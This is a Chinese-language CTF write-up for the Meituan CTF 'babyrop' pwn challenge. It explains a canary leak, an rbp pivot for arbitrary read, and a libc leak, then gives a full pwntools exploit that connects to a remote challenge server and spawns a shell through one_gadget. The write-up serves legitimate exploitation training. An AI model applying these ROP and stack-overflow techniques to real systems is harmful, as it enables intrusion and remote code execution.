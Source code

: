 ```yaml
---
layout: article
pageview: true
key: 2021-12-11-meituan-pwn-wp
title: 美团CTF初赛Pwn题WP
author: Ch4rc0al
categories: 
  - WriteUps
tags: 
  - Pwn
  - CTF
---
```


# 美团CTF初赛Pwn题WP 
<!--more-->
## babyrop

题目没有开`PIE`，for循环中可以溢出一位拿到`canary`，在`vul`函数中可以溢出至ret，我们可以返回到代码段`printf`附近的代码，其中`%s`的参数是通过`rbp-0x20`计算得到，我们可以在`vul`函数中溢出时指定`rbp`的值来实现任意地址读，我们读取`got`表或`bss`段相关内容都可以拿到`libc`地址，进而用`one_gadget`拿到shell

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')

p=process('./babyrop')
libc=ELF('./libc-2.27.so')
r=remote('123.57.207.81',24844)

local=0

if local!=1:
    p=r

leave_ret=0x0000000000400759
main=0x40075b
p_rdi=0x0000000000400913
p_rsi_r15=0x0000000000400911


p.send('a'*25)

p.recvuntil('a'*25)
canary=u64('\x00'+p.recvn(7))

log.info(hex(canary))
# passwd=0x64726f7773736170
# passwd=0x70617373776f7264
p.sendlineafter('Please input the passwd to unlock this challenge',str(0x4009AE))


p.send('a'*24+p64(canary)+p64(0x601010+0x20)+p64(0x400818))

p.recvuntil('Hello, ')

addr=u64(p.recvn(6)+'\x00\x00')-libc.sym['_IO_2_1_stdout_']
log.info(hex(addr))

ogg=[324565 ,324658 ,1090588]
# p.send('\x00'*25)

# gdb.attach(p)

p.sendlineafter('Please input the passwd to unlock this challenge',str(0x4009AE))

p.send('a'*24+p64(canary)+p64(ogg[0]+addr)*2)


p.interactive()
```

